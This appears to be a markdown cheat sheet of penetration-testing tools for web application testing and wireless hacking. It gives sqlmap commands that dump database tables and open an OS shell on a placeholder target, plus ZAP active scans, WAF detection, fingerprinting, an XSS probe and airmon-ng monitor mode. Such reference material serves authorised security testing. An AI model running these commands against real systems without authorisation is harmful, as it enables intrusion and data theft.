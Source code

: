 
## 🔹 Web Application Testing

**sqlmap** – Automated SQL injection  
```bash
sqlmap -u "http://target.com/page.php?id=1"
sqlmap -u "http://target.com/page.php?id=1" --dbs
sqlmap -u "http://target.com/page.php?id=1" -D dbname --tables  
sqlmap -u "http://target.com/page.php?id=1" -D dbname -T tablename --dump
sqlmap --data="id=1&name=test" -u "http://target.com/login.php"
sqlmap -u "http://target.com/page.php?id=1" --os-shell
sqlmap -u "http://target.com/page.php?id=1" --batch --risk=3 --level=5
```

**burpsuite** – Web application security testing  
```bash
# GUI-based proxy tool
# Default proxy: 127.0.0.1:8080
```

**owasp-zap** – Web application scanner  
```bash
zaproxy
zap-cli start
zap-cli spider http://target.com
zap-cli active-scan http://target.com
```

**wafw00f** – WAF detection  
```bash
wafw00f http://target.com
wafw00f -a http://target.com               # All detection methods
```

**whatweb** – Website fingerprinting  
```bash
whatweb target.com
whatweb -v target.com                      # Verbose mode
```

**xsser** – XSS detection tool  
```bash
xsser --url "http://target.com/search.php?q=XSS"
```

---

## 🔹 Wireless Network Hacking

### Monitor Mode & Capture

**airmon-ng** – Wireless interface management  
```bash
airmon-ng start wlan0                      # Enable monitor mode
airmon-ng stop wlan0mon                    # Disable monitor mode
airmon-ng check kill                       # Kill interfering processes
```
